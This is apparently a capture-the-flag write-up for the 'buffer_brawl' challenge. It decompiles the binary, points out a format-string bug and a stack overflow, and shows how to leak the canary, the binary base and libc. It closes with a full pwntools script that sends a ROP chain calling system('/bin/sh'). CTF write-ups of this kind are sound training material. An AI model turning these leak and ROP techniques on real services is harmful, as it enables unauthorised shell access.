 
Decompile `main()`:

```c
int __fastcall __noreturn main(int argc, const char **argv, const char **envp)
{
  banner();
  setup(argc, argv);
  welcome();
  menu();
}
```

In the menu, we have: 

```c
void __noreturn menu()
{
  int v0; // [rsp+14h] [rbp-44h] BYREF
  unsigned __int64 v1; // [rsp+18h] [rbp-40h]

  v1 = __readfsqword(0x28u);
  while ( 1 )
  {
    puts("");
    puts("Choose:");
    puts("1. Throw a jab");
    puts("2. Throw a hook");
    puts("3. Throw an uppercut");
    puts("4. Slip");
    puts("5. Call off");
    printf("> ");
    __isoc99_scanf("%d", &v0);
    switch ( v0 )
    {
      case 1:
        jab();
        break;
      case 2:
        hook();
        break;
      case 3:
        uppercut();
        break;
      case 4:
        slip();
        break;
      case 5:
        TKO();
      default:
        puts("Invalid choice. Try again.");
        break;
    }
  }
}
```

There are some choices for us. For `jab`, it will subtract our `stack's life point` to 1. We have 100 `stack's life point` for starting. 

```c
int jab()
{
  unsigned __int64 v1; // [rsp+8h] [rbp-10h]

  v1 = __readfsqword(0x28u);
  puts("\nYou threw a jab! -1 to the stack's life points.");
  --stack_life_points;
  if ( v1 == __readfsqword(0x28u) )
    return stack_check_up();
  else
    return hook();
}
```

A canary is set here. If stack is changed, it will called `stack_check_up()`: 

```c
int stack_check_up()
{
  unsigned __int64 v0; // rax
  __int64 v2; // [rsp+0h] [rbp-28h] BYREF
  unsigned __int64 v3; // [rsp+18h] [rbp-10h]

  v3 = __readfsqword(0x28u);                    // Canary
  if ( stack_life_points == 13 )
  {
    puts("\nThe stack got dizzy! Now it's your time to win!");
    puts("Enter your move: ");
    __isoc99_scanf("%s", &v2);                  // Buffer Overflow
    v0 = v3 - __readfsqword(0x28u);
    if ( !v0 )
      return v0;
LABEL_7:
    TKO();
  }
  if ( stack_life_points <= 0 )
  {
    puts("\nStack fainted! You're too brutal for it!");
    exit(0);
  }
  if ( v3 != __readfsqword(0x28u) )
    goto LABEL_7;
  LODWORD(v0) = printf("\nStack's life points: %d\n", (unsigned int)stack_life_points);
  return v0;
}
```

- If our `stack_life_point` is 13, we can input a unlimited string, so a buffer overflow bug here.
- If our `stack_life_point` is less than 0, then the program is end. 
- Else, it will printout the current `stack_life_point` for us. It also checks if canary is changed or not. If it is changed, it will called to `TKO()`, which ends our program too.
- 
```c
void __noreturn TKO()
{
  puts("\nYou've been hit hard by the stack!\nTKO!");
  exit(0);
}
```

- For `hook()` and `uppercut()`, we lose -2 and -3 `stack_life_point` respectively. In `slip()`:

```c
unsigned __int64 slip()
{
  unsigned __int64 result; // rax
  char v1[40]; // [rsp+0h] [rbp-38h] BYREF
  unsigned __int64 v2; // [rsp+28h] [rbp-10h]

  v2 = __readfsqword(0x28u);
  puts("\nTry to slip...\nRight or left?");
  read(0, v1, 29uLL);
  printf(v1);                                   // Format String
  result = v2 - __readfsqword(0x28u);
  if ( result )
    return stack_smash();
  return result;
}
```

There is a Format String bug here too. So we can use it to leak data. 
For leaking canary, it will appear in `%11$p` when we called`slip()`, because canary always ends with `00`. 

![image](https://hackmd.io/_uploads/H14WNrn71l.png)

Next, i will leak the libc by printout got of `puts`. But the binary address is dynamic, we first leak the binary first. In picture upthere, `%8$p` we can leak too. 
After having binary address, we can printout the value `got` of `puts`:

![image](https://hackmd.io/_uploads/ryUlSr3XJl.png)

Now we have the libc leak. Put it in the [libc.rip](https://libc.rip), we can have the libc. 

![image](https://hackmd.io/_uploads/rJZprHhQ1g.png)

Because there are so many libcs has that offset of `puts` too, so i need to leak `read`:

![image](https://hackmd.io/_uploads/HktHIrhQkx.png)

Download and patch it, we have libc now. 
I use ROPchain of libc to call system: 

![image](https://hackmd.io/_uploads/HkAzrB37ke.png)

You can find `pop rdi ; ret` with ROPgadget:

![image](https://hackmd.io/_uploads/HkG8SSn7yx.png)

Script: 
```python
#!/usr/bin/env python3
from pwn import *

exe = ELF("./buffer_brawl_patched")
libc = ELF("./libc.so.6")

context.binary = exe
def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("buffer-brawl.chal.wwctf.com", 1337)

    return r
def main():
	r = conn()
	input()
	def throwJab():
		r.sendlineafter(b'> ', b'1')
	def throwHook():
		r.sendlineafter(b'> ', b'2')
	def throwUppercut():
		r.sendlineafter(b'> ', b'3')
	def slip(data):
		r.sendlineafter(b'> ', b'4')
		r.recvuntil(b'Right or left?\n')
		r.sendline(data)
	def TKO():
		pass
	# Leak canary
	
	slip(b'%11$p')
	canary = int(r.recv(18), 16)
	info(b'Canary found: ' + hex(canary).encode())
	# Leak binary address 
	slip(b'%8$p')
	exe_leak = int(r.recv(14), 16)
	exe.address = exe_leak - 0x24e0
	info('Exe leak: ' + hex(exe_leak))
	info('Exe address: ' + hex(exe.address))
	# Leak libc address 
	slip(b'%7$s\0\0\0\0' + p64(exe.address + 0x3fb8))
	libc_leak = u64(r.recv(6) + b'\0\0')
	info(b'Libc leak: ' + hex(libc_leak).encode())
	libc.address = libc_leak - libc.sym['read']
	info(b'Libc base address: ' + hex(libc.address).encode())
	pause()
	bin_sh = next(libc.search('/bin/sh'))
	ret = libc.address +  0x0f8c92
	system = libc.sym['system']
	for i in range(29):
		throwUppercut()
	poprdi = libc.address + 0x2a3e5
	ret = poprdi + 1
	payload = b'A' * 24
	payload += p64(canary)
	payload += b"B" * 8
	payload += p64(poprdi) # pop rdi
	payload += p64(bin_sh) # "/bin/sh"
	payload += p64(ret) # ret;
	payload += p64(system) # system()
	r.sendlineafter(b'Enter your move: \n', payload) 
	# pause()
	r.interactive()

if __name__ == "__main__":
    main() 
```
